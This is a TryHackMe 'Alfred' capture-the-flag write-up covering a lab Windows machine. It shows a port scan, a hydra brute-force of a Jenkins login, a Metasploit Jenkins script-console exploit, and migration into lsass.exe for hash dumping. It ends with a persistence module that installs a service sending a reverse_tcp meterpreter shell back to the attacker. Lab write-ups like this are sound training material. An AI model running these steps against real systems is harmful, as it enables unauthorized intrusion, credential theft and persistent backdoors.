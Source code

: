 ```yaml
---
title: Alfred - Easy THM
date: 2023-11-01 12:01:23 +/-0800 
categories: [writeup, tryhackme] 
writeup: :title
permalink: /alfred 
tags: [thm, medium, writeup, windows, command injection, privilege abuse]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
python3 threader3000.py

Port 80 is open
Port 3389 is open
Port 8080 is open
```

### Nmap scan
```
nmap -p80,3389,8080 -sV -sC -T4 -Pn -oA 10.10.18.104 10.10.18.104

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
|   Target_Name: ALFRED
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
```
## Enumeration 🤖
### Jenkins enumeration
#### use hydra to brute force login
```
hydra -s 8080 -L $userfile -P $passfile $target_ip http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -f -o rockyou.txt

FOUND: admin:admin
```
## Exploit ⚒️
### Exploit with metasploit
```
use exploit/multi/http/jenkins_script_console

set LHOST 10.8.x.x
set TARGETURI /
set RPORT 8080
set RHOSTS 10.10.x.x
set username admin
set password admin
run

meterpreter >
```
Now that we have a session open, let's elevate our privileges!

## Privilege escalation 👺
### Switch process for more stable meterpreter stable, because my process was on x86 and i need on x64.
#### I'm using lsaas.exe process, so i will be able to dump hash and do more actions for my post-exploit
```
ps 

676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
```
#### Migrate to it
```
meterpreter > migrate 676
```
### Now that we have a stable meterpreter..
#### Let's retrieve user.txt 🤠
```
meterpreter > search -f user.txt

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\bruce\Desktop\user.txt  32            2019-10-25 18:22:36 -0400
```
#### Now root.txt! 😼
```
meterpreter > search -f root.txt

Path                                 Size (bytes)  Modified (UTC)
----                                 ------------  --------------
c:\Windows\System32\config\root.txt  70            2019-10-26 07:36:00 -0400
```
## Post-exploitation 🐼
### Use local persistance module from Metasploit 
#### Creating a new services in windows that will send a revershell
```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set lport <lport>
set lhost <lhost>
set session <id>
```

## Resources 📒
Article: [metasploit-module-for-persistence](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/local/persistence_service)